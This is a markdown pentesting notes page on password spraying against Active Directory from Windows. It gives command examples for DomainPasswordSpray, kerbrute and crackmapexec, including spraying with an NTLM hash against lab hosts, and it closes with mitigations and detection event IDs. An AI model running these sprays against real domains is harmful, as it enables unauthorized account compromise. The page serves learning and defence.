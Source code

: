 ```yaml
---
title: Attacking Active Directory from Windows
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - active
  - directory
  - ldap
  - linux
---
```

# Attacking Active Directory from Windows


[Index of Active Directory](active-directory.md)

!!! tip "Attacking from linux"
	- [Enumerating Active Directory from Linux](active-directory-from-linux-enumeration.md)
	- [Attacking Active Directory from Linux](active-directory-from-linux-attacks.md)
	- [Lateral Movement in Active Directory from Linux](active-directory-from-linux-lateral-movement.md)
	- [Privileges escalation in Active Directory from Linux](active-directory-from-linux-privilege-escalation.md)

!!! tip "Attacking from Windows"
	- [Enumerating Active Directory from Windows](active-directory-from-windows-enumeration.md)
	- [Attacking Active Directory from Windows](active-directory-from-windows-attacks.md)
	- [Privileges escalation in Active Directory from Windows](active-directory-from-windows-privilege-escalation.md)


## Password spraying

### DomainPasswordSpray

[See DomainPasswordSpray](domainpasswordspray.md)

```powershell-session
Import-Module .\DomainPasswordSpray.ps1

# Authenticated in the domain:
Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
# If we are authenticated to the domain, the tool will automatically generate a user list from Active Directory, query the domain password policy, and exclude user accounts within one attempt of locking out.

# Not authenticated in the domain:
Invoke-DomainPasswordSpray -UserList userlist.txt -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
```

### kerbrute

```
./kerbrute_windows_amd64.exe passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_ad_users  Welcome1
```

### crackmapexec

```powershell
# Spraying password with crackmapexec
crackmapexec smb $ip/23 -u /folder/userlist.txt -u administrator -H 88ad09182de639ccc6579eb0849751cf --local-auth --continue-on-success | grep +
# --continue-on-success:  continue spraying even after a valid password is found. Useful for spraying a single password against a large user list
# --local-auth:  if we are targetting a non-domain joined computer, we will need to use the option --local-auth. The --local-auth flag will tell the tool only to attempt to log in one time on each machine which removes any risk of account lockout.
# -H: hash
```


### Mitigation techniques against password spraying

- Multi-factor Authentication	
- Restricting Access
- Reducing Impact of Successful Exploitation
- Password Hygiene

In the Domain Controller’s security log, many instances of event ID [4625: An account failed to log on](https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4625) over a short period may indicate a password spraying attack. Organizations should have rules to correlate many logon failures within a set time interval to trigger an alert. A more savvy attacker may avoid SMB password spraying and instead target LDAP. Organizations should also monitor event ID [4771: Kerberos pre-authentication failed](https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4771), which may indicate an LDAP password spraying attempt. To do so, they will need to enable Kerberos logging. This [post](https://www.hub.trimarcsecurity.com/post/trimarc-research-detecting-password-spraying-with-security-event-auditing) details research around detecting password spraying using Windows Security Event Logging.

